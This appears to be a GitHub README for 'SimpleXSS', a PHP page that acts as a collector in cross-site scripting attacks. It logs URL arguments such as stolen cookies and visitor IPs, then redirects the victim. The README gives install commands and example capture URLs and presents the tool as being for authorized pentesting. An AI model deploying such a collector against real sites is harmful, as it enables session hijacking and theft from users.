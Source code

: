 # Simple XSS [![License](https://img.shields.io/badge/license-GPLv3-red.svg)](https://github.com/bambish/ScanQLi/blob/master/LICENSE.md) [![Twitter](https://img.shields.io/badge/twitter-@bambishee-blue.svg)](https://twitter.com/bambishee)

Simple index.php page to perform XSS attack.

### Features
* Record each URL args
* Record client IP
* Instant redirection (static or dynamic)

### Prerequisites
* Web server (apache2, nginx, ...)
* PHP

### Installing
**1.** Get the sources
```bash
git clone https://github.com/bambish/SimpleXSS
```

**2.** Move index.php in the web server root dir.
```bash
mv SimpleXSS/index.php /var/www/html
```

### Usage
* Basic usage: **cookies**=12345&**arg**=67890
```http
http://127.0.0.1/index.php?cookies=12345&arg=67890
```
You can use every `arbitrary args name`

* Dynamic redirection: **redirect**=http://arbitrarywebsite.com/
```http
http://127.0.0.1/index.php?cookies=12345&arbitraryarg=67890&redirect=http://github.com/
```
You can `change or disable` the `default redirection` by editing or comment `$staticredirection` var in `index.php`
You can force the static redirection if you set `$allowgetredirection` to false in index.php

* Write in specific dump file: **dumpfile**=arbitraryfile.txt
```http
http://127.0.0.1/index.php?cookies=12345&arbitraryarg=67890&dumpfile=arbitraryfile.txt
```
Be shure your `web server` have the right `access to create and edit` files at the root dir
The default dump file is `dumpfile.txt`

### Warning
This XSS template was created to perform pentest or others legal stuffs (like bug bounty).
Using this XSS template against web site **without authorization** is **forbidden**. 

I'm not responsible of your usage of this XSS template.
**At your own risk**.